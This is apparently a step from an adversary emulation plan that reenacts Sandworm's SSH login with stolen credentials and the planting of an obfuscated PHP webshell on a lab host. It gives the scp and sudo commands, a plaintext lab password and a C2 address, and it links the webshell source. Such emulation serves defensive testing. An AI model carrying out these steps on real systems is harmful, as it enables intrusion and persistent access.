 
## Test 7 (Steps 11-14)

### Step 11 - Initial Compromise

:microphone: `voice track`

Sandworm logs into patient zero via SSH using Valid Accounts for the user fherbert.

It is unknown how Sandworm obtained the credentials (perhaps an SSH password guessing attack, or zero day exploit).

Sandworm then deploys a PHP webshell for persistent access.

```
Compromised user info:

User:	fherbert

File write: /tmp/search.php, /var/www/html/search.php

System: 10.0.1.5 / caladan

C2:	192.168.0.4 connects to 10.0.1.5:443 via HTTPS (self signed cert)
```

#### ☣️ Procedures

Upload P.A.S. webshell to caladan/10.0.1.5 as `/tmp/search.php`.

```bash
# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

# Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.

scp sandworm/Resources/phpWebShell/obfuscated_webShell.php fherbert@10.0.1.5:/tmp/search.php
```

Password:

`Whg42WbhhCE17FEzrqeJ`

Move P.A.S. webshell to `/var/www/html` so it can be invoked via httpd.

```bash
ssh fherbert@10.0.1.5 "sudo mv /tmp/search.php /var/www/html/"
```

[Source Code](../../Resources/phpWebShell/webShell.php)

[Source Code - Obfuscated](../../Resources/phpWebShell/obfuscated_webShell.php)

#### :microscope: Cited Intelligence

* <https://www.us-cert.gov/ics/alerts/IR-ALERT-H-16-056-01>

* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf>

<br>
